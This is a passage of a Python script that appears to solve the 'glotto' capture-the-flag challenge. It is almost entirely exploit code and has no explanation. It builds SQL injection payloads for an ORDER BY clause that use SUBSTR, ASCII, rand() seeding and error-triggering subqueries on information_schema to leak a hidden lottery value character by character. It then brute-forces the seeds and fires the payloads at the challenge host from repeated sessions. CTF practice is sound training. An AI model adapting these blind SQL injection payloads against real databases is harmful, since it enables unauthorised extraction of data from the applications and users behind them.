 ```python
    36*36*36*IF((ASCII(SUBSTR(@lotto,7,1))) > 0x39, (ASCII(SUBSTR(@lotto,7,1))-0x37), (ASCII(SUBSTR(@lotto,7,1))-0x30))
  ), --`date
""".replace('\n', '')

## may order injection
order2 = """
date` = 1,
  rand(
    IF((ASCII(SUBSTR(@lotto,8,1))) > 0x39, (ASCII(SUBSTR(@lotto,8,1))-0x37), (ASCII(SUBSTR(@lotto,8,1))-0x30))+
    36*IF((ASCII(SUBSTR(@lotto,9,1))) > 0x39, (ASCII(SUBSTR(@lotto,9,1))-0x37), (ASCII(SUBSTR(@lotto,9,1))-0x30))
  ), --`date
""".replace('\n', '')

## june order injection
order3 = """
date` = 1,
  (select case when (SUBSTR(@lotto,10,1)=CHAR(0x31)) then 1 else 1*(select table_name from information_schema.tables)end)=1,
  (select case when (SUBSTR(@lotto,12,1)=CHAR(0x30)) then 1 else 1*(select table_name from information_schema.tables)end)=1,
  rand(
    IF((ASCII(SUBSTR(@lotto,11,1))) > 0x39, (ASCII(SUBSTR(@lotto,11,1))-0x37), (ASCII(SUBSTR(@lotto,11,1))-0x30))
  ), --`date
""".replace('\n', '')


params = {
    'order0' : order0,
    'order1' : order1,
    'order2' : order2,
    'order3' : order3,
}

found = False

def find_permutation_seed(cursor, month, count, winners):
    for i in range(count):
        cursor.execute("select * from %s ORDER BY `date` = 1, rand(%d), --`date`;" % (month,i))
        records = cursor.fetchall()
        result = []
        for record in records:
            result.append(record[1])
        if result == winners:
            print result
            print i
            code0 = i
            return code0
    return 0

## thread function
def attempt():
    global found
    # start a unique session
    s = requests.Session()
    # perform a get request until a limit is met or someone found a match for bytes 10 and 12.
    for i in range(100):
        if found:
            return
        resp = s.get('https://glotto.web.ctfcompetition.com', params=params)
```